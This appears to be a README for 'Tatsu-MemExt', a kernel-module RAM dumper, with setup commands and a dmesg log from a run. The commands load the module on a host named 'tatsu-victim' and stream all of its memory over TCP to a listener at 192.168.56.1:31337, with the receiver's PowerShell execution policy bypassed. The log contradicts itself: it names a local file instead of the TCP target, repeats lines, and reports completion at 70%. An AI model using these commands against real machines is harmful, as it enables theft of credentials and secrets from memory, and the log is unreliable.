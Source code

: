# Tatsu-MemExt

 powershell -ExecutionPolicy Bypass -File .\mem_receiver.ps1 -Port 31337 -OutputFile C:\memory.dmp
ncat -l -p 31337 > memory.dmp
insmod mem_dumper.ko dump_path=tcp:192.168.56.1:31337
dmesg -w


[ 3412.614510] MemDumper: Module loaded. Beginning dump process...
[ 3412.614519] MemDumper: Will write dump to file /home/tatsu-victim/mem.dmp
[ 3412.614522] MemDumper: Module loaded. Beginning dump process...
[ 3412.614609] kernel write not supported for file /6521/oom_score_adj (pid: 6521 comm: insmod)
[ 3412.614616] MemDumper: Failed to set OOM value: -22
[ 3412.614620] MemDumper: Process protection complete
[ 3412.614625] MemDumper: Total RAM: 3875 MB
[ 3412.614628] MemDumper: Will write dump to file /home/tatsu-victim/mem.dmp
[ 3412.614630] MemDumper: Starting memory dump to /home/tatsu-victim/mem.dmp
[ 3412.614631] MemDumper: totalram_pages = 992248
[ 3412.614633] MemDumper: totalhigh_pages = 0
[ 3412.614635] MemDumper: Max PFN: 992248
[ 3413.383796] MemDumper: PFN 100000/992248 (10%)
[ 3414.423943] MemDumper: PFN 200000/992248 (20%)
[ 3415.148915] MemDumper: PFN 300000/992248 (30%)
[ 3416.008472] MemDumper: PFN 400000/992248 (40%)
[ 3416.986784] MemDumper: PFN 500000/992248 (50%)
[ 3425.881182] MemDumper: PFN 600000/992248 (60%)
[ 3436.807030] MemDumper: PFN 700000/992248 (70%)
[ 3444.041782] MemDumper: Basic settings restored
[ 3444.041787] MemDumper: Dump complete. Errors: 0